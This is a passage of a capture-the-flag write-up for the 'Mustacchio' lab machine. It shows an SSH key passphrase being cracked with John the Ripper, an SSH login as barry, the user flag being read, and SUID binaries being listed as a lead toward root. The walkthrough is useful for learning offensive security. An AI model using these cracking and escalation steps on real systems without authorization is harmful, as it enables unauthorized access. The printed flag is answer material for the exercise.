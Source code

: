 ```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash                     
urieljames       (clean-id-rsa)     
                     
```

With the extracted passphrase, now SSH to Barry machine

## User Access

```bash
$ ssh barry@10.10.236.200 -i clean-id-rsa 
Enter passphrase for key 'clean-id-rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ id
uid=1003(barry) gid=1003(barry) groups=1003(barry)
barry@mustacchio:~$ ls /home
barry  joe
```

The user.txt can be found in the Barry folder. 

```python
barry@mustacchio:~$ ls /home/barry/user.txt 
/home/barry/user.txt
barry@mustacchio:~$ cat /home/barry/user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
```

## Root Access

View the sudoers file first, if nothing found there move to the next step which is searching for SUID binaries that can be abused to gain a root access.

```bash
barry@mustacchio:~$ find / -type f -perm -04000 -ls 2>/dev/null
    26223     84 -rwsr-xr-x   1 root     root        84120 Apr  9  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    29343     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    29386     16 -rwsr-xr-x   1 root     root        14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    29788    112 -rwsr-xr-x   1 root     root       110792 Feb  8  2021 /usr/lib/snapd/snap-confine
    29776    420 -rwsr-xr-x   1 root     root       428240 May 26  2020 /usr/lib/openssh/ssh-keysign
    29454     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    24360     56 -rwsr-xr-x   1 root     root          54256 Mar 26  2019 /usr/bin/passwd
    24749     24 -rwsr-xr-x   1 root     root          23376 Mar 27  2019 /usr/bin/pkexec
    24359     72 -rwsr-xr-x   1 root     root          71824 Mar 26  2019 /usr/bin/chfn
```